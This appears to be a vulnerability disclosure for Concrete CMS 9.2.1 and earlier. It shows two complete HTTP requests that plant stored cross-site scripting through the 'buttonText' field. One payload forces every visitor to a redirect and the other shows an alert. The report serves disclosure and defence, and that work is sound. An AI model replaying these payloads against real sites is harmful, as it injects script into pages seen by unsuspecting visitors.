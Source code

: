 BUG_Author:
LJWIIE

Affected version:
Concrete CMS versions 9.2.1 and earlier

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "buttonText" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'buttonText' contains a Stored Cross-Site Scripting (XSS) vulnerability

[**Redirect to Google official website**]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695476922:c261176e790a549f600ab848e4ec5b71&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1661 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1779
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykwuKxwH267kqwS4O
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE_LOGIN=1; CONCRETE=uom43h1edq4r6tcaiamp3duemr
Connection: close

------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="buttonText"

Learn More<script>window.onload =function(){window.location.href='https://www.google.com';};</script><a>
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="icon"


------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundarykwuKxwH267kqwS4O
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundarykwuKxwH267kqwS4O--
```

![image](https://github.com/IIE-Safety/buttonText/assets/65028436/8c091e7b-bfb8-4494-9aed-3c9fe63c38ff)

![image](https://github.com/IIE-Safety/buttonText/assets/65028436/09c98f1b-387e-4020-8ff7-69d7109bead9)

Once edited and saved, anyone visiting this page will be forced to visit the Google website.
Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[**Display alert window**]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695476595:90031b708bd3b66ddc08914b7fe02a7d&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1661 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1779
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRkj5J4MxwpyM9iQF
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE_LOGIN=1; CONCRETE=uom43h1edq4r6tcaiamp3duemr
Connection: close

------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="buttonText"

Learn More<script>alert("You have been hacked!")</script><a>
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryRkj5J4MxwpyM9iQF
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryRkj5J4MxwpyM9iQF--
```

![image](https://github.com/IIE-Safety/buttonText/assets/65028436/b7054ddf-b1b3-4b6a-9495-cd511b42bd1b)

![image](https://github.com/IIE-Safety/buttonText/assets/65028436/09c98f1b-387e-4020-8ff7-69d7109bead9)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

